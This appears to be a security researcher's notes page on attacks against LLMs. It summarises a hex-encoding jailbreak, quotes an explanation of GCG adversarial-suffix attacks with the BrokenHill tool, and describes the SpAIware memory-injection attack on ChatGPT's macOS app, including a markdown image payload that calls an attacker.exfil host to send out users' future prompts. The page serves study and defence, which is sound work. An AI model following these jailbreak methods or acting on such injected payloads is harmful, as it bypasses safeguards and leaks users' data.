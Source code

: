 # AI Exploits


## Encoding Attacks

Sometimes just hexadecimal is enough - [ChatGPT-4o Guardrail Jailbreak: Hex Encoding for Writing CVE Exploits - Marco Figueroa](https://0din.ai/blog/chatgpt-4o-guardrail-jailbreak-hex-encoding-for-writing-cve-exploitsi)


## Greedy Coordinate Gradient (GCG) Attack

[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
*A GCG attack begins with two inputs from the operator: a request that will be sent to an LLM, and the beginning of an ideal response that the LLM could send back, if the LLM were not conditioned or instructed to avoid providing that response*. The operator provides *Adversarial content* that *causes the LLM to instead predict that the most likely continuation is*. To highlight the cause of LLM response, it is the mechanic statistical matching of what it statistically matches as a complete response. *So the LLM will then continue to add more text until the response appears complete*, *...even if the LLM has been conditioned to not provide the type of information in the request, it is very likely to ignore that conditioning, because (to anthropomorphize a bit) the LLM can see that it has already agreed to provide the information, and therefore, statistically, the most likely text to follow is exactly the information it was conditioned not to provide.*

Tool: [GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
## SpAIware

The introduction of API call named `url_safe` in ChatGPT informs the client if it is safe to display a URL or an image to the user or not, but this a client side check; not server-side.

1. First a memory is injected with prompt to go to `http://attacker.exfil/p.txt`, which is destination of the exfiltration of future prompts.  The payload is markdown image syntax reference`![](http://attacker.exfil/0.png?chatgptmacos=http://attacker.exfil/p.txt)`

[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)

Continuous Mitigation:
- Clear your ChatGPT memory and hope that the provider deletes your data


## References

[GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)
[ChatGPT-4o Guardrail Jailbreak: Hex Encoding for Writing CVE Exploits - Marco Figueroa](https://0din.ai/blog/chatgpt-4o-guardrail-jailbreak-hex-encoding-for-writing-cve-exploitsi)
